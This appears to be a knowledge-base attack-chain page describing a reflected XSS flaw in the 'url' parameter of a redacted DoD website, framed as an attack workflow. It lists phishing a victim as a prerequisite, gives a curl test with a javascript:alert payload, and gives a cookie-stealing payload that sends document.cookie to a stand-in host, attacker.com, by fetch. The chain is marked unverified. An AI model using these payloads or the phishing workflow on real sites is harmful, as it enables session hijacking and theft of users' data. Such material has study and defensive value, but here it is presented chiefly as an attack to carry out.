

# Reflected XSS in DoD Website URL Parameter for JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser (e.g., Chrome, Firefox)
- Optional: [[tools/Burp-Suite]] for advanced testing

### Target Environment

- Web platform
- Publicly accessible DoD website endpoint: https://███████html
- No specific ports or services required beyond standard HTTP/HTTPS

### Initial Access Requirements

- Ability to send a malicious link to the victim (e.g., via phishing)
- Victim must click the link and have JavaScript enabled in their browser
- No prior credentials or network access needed

## Detailed Attack Procedures

### Step 1: Inject and Execute Malicious JavaScript
procedure: [[procedures/Exploit-Reflected-XSS-in-URL-Parameter]]

**Objective**: Exploit the lack of input validation on the 'url' parameter to reflect and execute arbitrary JavaScript in the victim's browser, potentially leading to session hijacking or data theft.

**Instructions**: Construct a malicious URL by appending a javascript: payload to the 'url' parameter. For testing, use a browser or curl to send the request and observe execution.

First, test the vulnerability using [[commands/curl-xss-test]] to inject the payload:

```bash
curl "https://███████html?url=javascript:alert('XSS')" -v
```

If reflected, open the malicious URL in a browser to trigger execution:

```bash
# In browser: https://███████html?url=javascript:alert('XSS')
```

Replace the alert with malicious code, such as stealing cookies: `javascript:fetch('https://attacker.com/steal?cookie='+document.cookie)`.

**Expected Output**: The JavaScript executes, popping an alert or sending data to the attacker's server.

**Success Indicators**:
- Alert box appears in the browser
- Network request to attacker's server confirms data exfiltration
- No server-side errors; payload reflects unsanitized

## Attack Chain Summary

### Key Achievements

1. Identified reflected XSS in URL parameter without validation
2. Demonstrated JavaScript execution via javascript: protocol
3. Highlighted potential for client-side attacks like session theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
